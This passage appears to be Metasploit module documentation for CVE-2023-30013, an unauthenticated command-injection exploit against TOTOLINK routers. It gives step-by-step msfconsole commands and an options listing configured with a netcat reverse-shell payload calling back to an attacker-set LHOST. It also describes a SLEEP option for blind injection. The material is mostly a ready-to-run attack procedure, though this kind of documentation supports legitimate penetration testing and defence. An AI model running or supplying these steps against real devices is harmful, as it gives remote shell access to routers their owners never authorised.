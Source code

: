 * You are now ready to test the module using the emulated router hardware on IP address 192.168.0.1.

## Verification Steps
- [x] Start `msfconsole`
- [x] `use exploit/linux/http/totolink_unauth_rce_cve_2023_30013`
- [x] `set rhosts <ip-target>`
- [x] `set rport <port>`
- [x] `set lhost <ip-attacker>`
- [x] `set target <0=Unix Command, 1=Linux Dropper>`
- [x] `exploit`

you should get a `reverse shell` or `Meterpreter`

```
msf6 exploit(linux/http/totolink_unauth_rce_cve_2023_30013) > options

Module options (exploit/linux/http/totolink_unauth_rce_cve_2023_30013):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.0.1      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using
                                       -metasploit.html
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local
                                        machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  1981             yes       The local port to listen on.


Payload options (cmd/unix/reverse_netcat_gaping):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.0.2      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command
```
## Options
### SLEEP
Sleep time in seconds to test blind command injection. Default set is to 3 seconds.
